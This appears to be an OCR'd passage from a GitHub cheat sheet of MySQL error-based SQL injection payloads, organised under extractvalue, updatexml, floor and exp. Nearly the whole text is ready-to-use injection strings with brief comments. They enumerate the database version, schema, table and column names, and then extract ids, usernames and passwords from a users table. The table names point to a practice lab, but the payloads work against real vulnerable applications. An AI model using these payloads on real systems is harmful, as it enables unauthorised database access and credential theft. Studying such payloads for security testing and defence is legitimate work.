````sql
# Explode a field name from the users table in the current database
and extractvalue(1,concat(0x7e,( select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1 ),0x7e)) --+

# Explode a data from the corresponding column names in the users table
and extractvalue(1,concat(0x7e,( select concat(id,0x7e,username,0x7e,password) from users limit 0,1),0x7e)) --+
```

#### updatexml
````sql
# Current version
and updatexml(1,concat(0x7e,(select version()),0x7e),3) --+

# When a database is exposed, you need to pay attention to the display length limitation. If it is too long, it will not be displayed.
and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e),3) --+

# Explode a table name from the current database
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),3) --+

# Explode a field name from the users table in the current database
and updatexml(1,concat(0x7e,( select column_name from information_schema.columns where table_sch
ema=database() and table_name='users' limit 0,1 ),0x7e),3) --+

# Explode a data from the corresponding column names in the users table
and updatexml(1,concat(0x7e,( select concat(id,0x7e,username,0x7e,password) from users limit 0,1),0x7e),3) --+
```

#### floor
````sql
# Current version
and(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# Breaking out a database
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# Explode a table name from the current database
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# Explode a field name from the users table in the current database
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_schema='security' and table_name='users' LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# Explode a data from the corresponding column names in the users table
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM users limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+
```

#### exp
````sql
and (select exp(~(select * from(select version())x)); --+
````